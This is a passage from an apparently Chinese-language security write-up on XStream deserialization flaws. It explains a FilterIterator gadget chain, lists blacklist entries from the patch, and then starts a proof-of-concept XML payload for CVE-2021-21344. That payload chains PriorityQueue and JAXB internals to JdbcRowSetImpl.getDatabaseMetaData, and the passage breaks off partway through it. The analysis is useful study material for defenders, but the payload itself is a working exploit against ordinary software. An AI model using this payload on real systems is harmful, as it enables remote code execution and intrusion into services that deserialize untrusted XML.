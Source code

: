     这里的控制elt的思路如下：
    
    *   step1:利用的是EmptyIterator hasNext() 为false，构造了第一层FilterIterator iter1，使得iter1.next() = iter1.next
    *   step2:再构造一层 FilterIterator iter2，iter2.iter=iter1,使得iter2.next() = iter2.iter1.next() = iter2.iter1.next

![](_assets/pasted-139.png)

### [](#黑名单： "黑名单：")黑名单：

```java
javax.imageio.ImageIO$ContainsFilter
denyTypeHierarchyDynamically("javax.activation.DataSource");
```

[](#CVE-2021-21344 "CVE-2021-21344")CVE-2021-21344
--------------------------------------------------

author: 钟师傅

### [](#POC "POC")POC

```xml
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
        <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
          <packet>
            <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
              <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                  <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                    <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                      <jaxbType>com.sun.rowset.JdbcRowSetImpl</jaxbType>
                      <uriProperties/>
                      <attributeProperties/>
                      <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                        <getter>
                          <class>com.sun.rowset.JdbcRowSetImpl</class>
                          <name>getDatabaseMetaData</name>
                          <parameter-types/>
```